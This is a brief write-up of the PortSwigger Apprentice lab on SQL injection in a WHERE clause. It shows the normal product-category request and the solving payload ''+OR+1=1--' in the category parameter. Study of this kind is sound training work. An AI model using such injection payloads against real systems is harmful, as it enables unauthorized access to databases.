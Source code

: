 ```yaml
---
title: PortSwigger - SQLi 1 - SQLi in WHERE clause
date: 2023-03-02
categories: [PortSwigger, SQLi]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Apprentice`

## 🎯 Goal

Show all the products no matter the category.

## ✅ Solution

Initial request:

````text
<website>/products?category=Gifts
````

With payload:

````text
<website>/products?category='+OR+1=1--
````
